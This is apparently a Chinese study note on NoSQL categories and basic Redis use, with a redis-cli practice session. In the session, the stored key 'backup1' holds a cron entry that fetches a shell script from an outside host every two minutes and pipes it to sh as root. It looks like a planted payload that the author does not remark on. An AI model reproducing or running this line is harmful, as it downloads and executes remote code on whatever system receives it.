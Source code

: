 4.Graph图形数据库
相关产品: Neo4J、OrientDB、InfoGrid、GraphDB
主要应用: 复杂,互连接,低结构化的图结构场合, 专注构建关系图谱
优点: 利用图结构相关算法, 可用于构建复杂的关系图谱
缺点: 复杂度高

安装嘛就不说啦，之前就自己装好了

### win&linux

![image-20220405160111273](.\photo\image-20220405160111273.png)

```
//简单玩玩
[root@lgdlgd123 ~]# redis-cli -p 6379
127.0.0.1:6379> ping
PONG
127.0.0.1:6379> set name lgd
OK
127.0.0.1:6379> get lgd
(nil)
127.0.0.1:6379> get name
"lgd"
127.0.0.1:6379> keys *
1) "backup3"
2) "backup2"
3) "name"
4) "backup1"
5) "backup4"
127.0.0.1:6379> get backup1
"\n\n\n*/2 * * * * root cd1 -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | sh\n\n"

[root@lgdlgd123 ~]# ps -ef|grep redis
redis      947     1  0 Feb03 ?        01:59:53 /www/server/redis/src/redis-server *:6379
root     32018 31975  0 16:00 pts/0    00:00:00 redis-cli -p 6379
root     32457 32425  0 16:03 pts/1    00:00:00 grep --color=auto redis

shutdown //关闭 ctrl+c
```

### redis-benchmark测试性能

压力测试工具

简单测试下玩玩
